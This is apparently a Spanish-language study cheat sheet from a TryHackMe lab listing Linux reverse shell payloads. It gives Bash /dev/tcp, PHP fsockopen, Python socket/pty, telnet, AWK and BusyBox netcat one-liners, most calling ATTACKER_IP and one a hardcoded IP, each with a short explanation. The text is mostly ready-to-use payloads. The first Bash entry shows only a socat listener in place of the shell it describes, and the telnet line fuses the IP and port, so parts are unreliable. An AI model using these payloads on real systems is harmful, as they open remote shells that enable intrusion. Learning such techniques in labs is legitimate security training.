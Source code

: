 Un payload de shell puede ser un comando o script que expone una shell a una conexión entrante en caso de una bind shell o que manda una conexión en caso de una reverse shell.

Exploremos algunos de los payloads que pueden ser usados en Linux OS para exponer shells mediante **reverse shell**.

--------------------------
<h2>Bash</h2>
<h6>Normal Bash Reverse Shell</h6>
```shell
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT
2024/09/23 15:44:38 socat[41135] N listening on AF=2 0.0.0.0:443
```

Esta reverse shell inicia una shell bash interactiva que redirige el input y output a través de una conexión TCP a la máquina del atacante en el puerto `443`. El operador `>&` combina ambos, estándar output y error.

<h6>Bash Read Line Reverse Shell</h6>
```shell
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

Esta reverse shell crea un nuevo descriptor de archivo (`5` en este caso) y se conecta a un socket TCP. Leerá y ejecutará comandos desde el socket, mandando el output a través del mismo socket.

<h6>Bash With File Descriptor 196 Reverse Shell</h6>
```shell
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

Esta reverse shell usa un descriptor de archivo (`196` en este caso) para establecer una conexión TCP. Permite al shell leer comandos de la red y mandar el output de vuelta mediante la misma conexión.

<h6>Bash With File Descriptor 5 Reverse Shell</h6>
```shell
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

De forma similar al primer ejemplo, este comando abre una shell, pero usa el descriptor `5` para el input y el output, permitiendo una sesión interactiva mediante una conexión TCP.

----------------------
<h2>PHP</h2>
<h6>PHP Reverse Shell Using the exec Fuction</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

Esta reverse shell crea una comunicación socket a la IP del atacante en el puerto `443` y usa la función `exec` para ejecutar una shell, redirigiendo el input y output estándar.

<h6>PHP Reverse Shell</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

Similar al comando anterior, pero usa la función `shell_exec`.

<h6>PHP Reverse Shell Using the system Function</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

Esta reverse shell usa la función `system` la cual ejecuta el comando y muestra la salida en el navegador.

<h6>PHP Reverse Shell Using the passthru Function</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

La función `passthru` ejecuta un comando y manda output raw de vuelta al navegador. Esto es útil al trabajar con datos binarios

<h6>PHP Reverse Shell Using the popen Function</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```

Esta reverse shell usa `popen` para abrir un puntero de proceso de archivo, permitiendo a la shell ser ejecutada.

-------------------------
<h2>Python</h2>
<h6>Python Reverse Shell by Exporting Environment Variables</h6>
```shell
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```

Configura el host remoto y puerto como variables de entorno, crea una conexión socket y duplica el descriptor de archivo del socket.
<h6>Python Reverse Shell Using the subprocess Module</h6>
```shell
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

Usa el módulo `subprocess`para spawnear una shell y configurar un entorno similar al Python Reverse Shell exportando el comando de variables de entorno.
<h6>Short Python Reverse Shell</h6>
```shell
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

Crea un socket (`s`), se conecta al atacante, redirige el input,output y error estándar al socket usando `os.dup2()`.

--------------------------
<h2>Otras</h2>
<h6>Telnet</h6>
```shell
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

Crea una named pipe usando `mkfifo` y se conecta al atacante vía Telnet en la IP y puertos especificados.

<h6>AWK</h6>
```shell
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

Usa el TCP en AWK para conectarse a la IP y puerto del atacante. Lee comandos del atacante y los ejecuta. Después manda los resultados de vuelta por la misma conexión TCP.

<h6>BusyBox</h6>
```shell
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```

Usa Netcat (`nc`) para conectarse al atacante. Una vez establecida la conexión, ejecuta `/bin/sh`, exponiendo la línea de comandos al atacante.

